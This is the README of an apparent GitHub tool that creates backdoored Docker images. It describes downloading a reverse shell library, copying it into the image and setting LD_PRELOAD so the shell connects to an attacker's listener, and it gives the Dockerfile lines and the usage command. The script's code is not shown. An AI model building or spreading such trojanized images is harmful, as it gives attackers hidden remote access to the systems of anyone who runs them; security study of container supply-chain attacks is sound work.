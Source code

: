 # Trojanizedocker - Docker Backdoor Image Creator (Based on Dockerscan)

This Python script facilitates the creation of a backdoored Docker image. It automates the process by downloading a specified reverse shell binary, embedding it into the Docker image, and configuring environment variables to establish a reverse shell connection. 
This is a Python script that is going to help a user to create a Docker image with a backdoor. By doing so, it makes the process automatic by making use of a certain reversed shell binary, embedding it into the Docker image and setting environment variables to provide reverse shell connection. The script uses reverse shell component that was originally developed by [cr0hn - Dockerscan](https://github.com/cr0hn/dockerscan/blob/590a844418038d25e6649e609ef630868e0c9161/dockerscan/actions/image/modifiers/shells/reverse_shell.so).

## Background

The motivation for developing this script stemmed from the lack of recent updates on the Dockerscan project; the last commit was made on May 27, 2020 [view commit](https://github.com/cr0hn/dockerscan//commit/590a844418038d25e6649e609ef630868e0c9161). The need for a substitute that would be easy to use and work with the different versions of Python which was used by Dockerscan.

## Purpose

It is achieved by designing the software for educational purposes, enabling users to understand and demonstrate the operations of Docker image manipulation using `LD_PRELOAD`.

## How It Works

The script performs several key operations to create a backdoored Docker image:

1. **Download Reverse Shell Binary**: It downloads a reverse shell shared object file (`.so`) from a specified URL. This file is designed to establish a remote connection from the Docker container to an attacker-controlled server.

2. **Create Dockerfile**: The script dynamically generates a Dockerfile that incorporates the downloaded reverse shell. This Dockerfile instructs Docker to copy the reverse shell into the image and set it to be loaded before any other library by using the `LD_PRELOAD` environment variable.

## Understanding LD_PRELOAD and Reverse Shell Injection

- The Dockerfile created by this script contains the following critical lines:

```
COPY reverse_shell.so /usr/share/lib/reverse_shell.so
ENV LD_PRELOAD=/usr/share/lib/reverse_shell.so
```
## What Does This Do?

- `COPY reverse_shell.so /usr/share/lib/reverse_shell.so`: Command copies the reverse shell binary (reverse_shell.so - used in dockerscan) into a specific location inside the Docker image. 

- `ENV LD_PRELOAD`=/usr/share/lib/reverse_shell.so: By setting the LD_PRELOAD environment variable, it is intructed that the Linux dynamic linker to load our specified `reverse_shell.so` file before any other libraries when a program is run. This is a powerful method for modifying the behavior of compiled applications transparently.

- Use LD_PRELOAD leading to immediate code execution: Using `LD_PRELOAD` with a constructor attribute in the shared object allows executing custom code before the main application starts. This can be used for debugging, monitoring, or altering the application's normal operation without modifying the source code.

  
## Requirements

Before running the script, ensure that Docker is installed and running on your system. Python 3.x is also required.

## Installation

Install the required Python libraries with:

```
pip install -r requirements.txt
```

## Usage

```
python docker_backdoor.py -i <base-image> -o <output-image> -l <listener-ip> -p <listener-port> --shell-url <url-to-reverse-shell>
```

## Credits [Based On]

- **Backdooring Docker images - Reverse shell**: [Backdooring Docker images - Reverse shell](https://greencashew.dev/posts/backdooring-docker-images-reverse-shell/)
- **DockerScan GitHub Repository**: [Source for DockerScan, a tool for security analysis of Docker containers](https://github.com/cr0hn/dockerscan/)
- **LD_PRELOAD: How to Run Code at Load Time**: [LD_PRELOAD: How to Run Code at Load Time](https://www.secureideas.com/blog/2021/ldpreload-runcode.html)
- Thanks to #chatgpt
